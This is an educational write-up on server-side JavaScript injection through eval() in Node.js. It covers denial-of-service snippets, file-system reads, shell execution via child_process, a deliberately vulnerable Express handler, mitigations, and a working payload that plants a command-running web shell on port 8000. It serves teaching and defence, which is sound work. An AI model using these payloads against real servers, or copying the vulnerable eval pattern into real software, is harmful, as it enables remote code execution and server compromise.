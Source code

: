 # Server Side Javascript Injection (SSJS) Write Up {-}

# Description
This type of attack occurs when unsanitized user submitted data is parsed with an evaluative JS function on the server, i.e. `eval()`. This allows for arbitrary code execution which is highly invasive and potentially damaging to the server.

**Note:** Such vulnerabilities exist in `setInterval()`, `setTimeout()`, and `Function()`, however Node.js uses modified variations of these, limiting their input types to callback functions only, as opposed to strings. This effectively mitigates the vulnerability through these functions on Node servers, however other Javascript runtimes may be susceptible to attack.
>This function is similar to `window.setTimeout()` (as well as `window.setInterval()`) from the browser JavaScript API, however a string of code cannot be passed to be executed. _-Node.js documentation_



# Capabilities
This exploit allows an attacker to control code execution of the server. This gives the attacker the same permissions as that of the server. Possible attacks include:
- **Denial of Service**
  - `while(1)`
    - Targets server's event loop rendering it unable to process any other requests.
  - `process.exit()` or `process.kill(process.pid)`
    - Exits or kills the process, resulting in a DoS

- **File System Access**
  - `require('fs').readdirSync('.')`
    - Reads the directory of the application
  - `require('fs').readFile(<some file path>)`
    - Reads content of file on the server's system
- **Execution of Binary Files**
  - `require('child_process').execSync("<some command>")`
    - Opens a shell and executes a command

# Limitations
Because the attack allows for code execution by the server, the attacker has the permissions of the server application. If a shell is opened, the permissions of the current user will be transferred.

# Mitigations

## Application level
- Properly validate/sanitize all user input
  - If submitting user input into dynamically evaluated code is unavoidable, input should be limited ideally to a whitelist of accepted inputs, or at least restricted to a short string of alphanumeric characters.
- Avoid use of `eval()` to parse user input
  - Use parsers such as `parseInt()` to safely evaluate output
- Include `'use strict'` when possible to limit permissions of the application
  - Prevents eval from being able to create variables in the scope it was called in
  - Requiring that strict mode be enabled on user submitted Javascript eliminates the purpose for some runtime checks, minimizing performance cost.


## System level
Restriction of user permissions on the server will limit the impact of malicious code on the system.

# Examples

## Using `eval()`

### Dependencies
Install the following npm packages:
- `express`: framework used to build the vulnerable web app, not vulnerable itself.

### Exploitable source
### [`exploitable.js`](https://github.uconn.edu/jrs12014/OSC-UConn/tree/master/WriteUps/JSCodeInjections/examples/eval/exploitable.js)

Uses the `eval` builtin as an integer parser for the `birthYear` POST query. This is available at the `<exploitable server>/` route.

```javascript
//Handles form submissions
app.post('/', (req, res) => {
  //Retrieve query from form
  let birthYear = eval(req.body.birthYear)

  //End HTTP response
  res.end("You are " + (2019 - birthYear) + " years old.")
});
```

### Running the Exploit
#### Starting server
After downloading the source and installing the dependencies you can run the server by doing:

- `foo@bar:~$ cd /path/to/base_packages/`
- `foo@bar:~$ node exploitable.js`

#### Payload Procedure

- Go to `localhost:8080/` or whatever port server is hosted on
- Form on webpage serves the exploit using `eval` function

#### Example Payload
```javascript
setTimeout(function() {
    require('http').createServer(function(req, res) {
        res.writeHead(200, {
            "Content-Type": "text/plain"
        });
        require('child_process').exec(require('url').parse(req.url, true).query['cmd'], function(e, s, st) {
            res.end(s);
        })
    }).listen(8000);
}, 5000)
```
This payload will create a separate web server accessible by `localhost:8000/` and process GET requests via the `cmd` query to execute those as commands on the shell of the server's system.

# Searching for Vulnerability
This vulnerability can be found wherever a string or object from user input is parsed into Javascript and executed, such as through the `eval()` function.
